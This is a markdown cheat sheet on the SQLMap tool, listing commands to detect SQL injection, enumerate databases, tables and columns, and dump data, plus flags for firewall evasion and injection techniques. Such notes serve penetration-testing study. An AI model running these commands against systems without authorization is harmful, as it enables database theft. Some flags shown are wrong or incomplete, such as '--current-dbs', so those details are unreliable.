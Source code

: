 ```yaml
---
title: Fully Automated Tool (SQLMap)
---
```


````bash
sqlmap -hh # Extended Help
````

1. <u>Check site for Vulnerability</u>

````bash
sqlmap -u <URL> --level=5 --risk=3
sqlmap -r <request-file> --string="<text-if-query-true>" --level=5 --risk=3
sqlmap -u <URL>?id=5
````

Sometimes this might not work in that case we need to specify the fields that need to be tested
Burp Suite - Repeater - Request (Replace the payload values with `*`  
e.g.  `username=*&password=*` : Save as file

````bash
sqlmap -r <request-file>
````

2. <u>Retrieve DB Names</u>

````bash
sqlmap -r <request-file> --dbs
sqlmap -u <URL> --dbs
sqlmap -u <URL> --current-dbs # Return DB that is currently used
````

3. <u>All Tables from DB</u>

````bash
sqlmap -u <URL> -D <db-name> --tables
````

4. <u>Columns from Table</u>

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> --columns
````

5. <u>View Data from Column</u>

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> -C <column-name>
````

**<u>Flags</u>**:  
-u URL : Target URL  
--level=5 : Through Scan - Default : 1  
--risk=3 : Risk Level - Default : 1  
-r filename : Provide the request file  
--random-agent : Request blocked by firewall  
--dump : Exploit Vulnerability Save result to file

--string "string" : String present on result page on successful query (Required from Blind Injection)  
--dbms=dbms-name : Pass Database Type (MySQL, PostgreSQL, etc.)

--technique : BEUSTQ  
B: Boolean-based blind  
E: Error-based  
U: Union query-based  
S: Stacked queries  
T: Time-based blind  
Q: Inline queries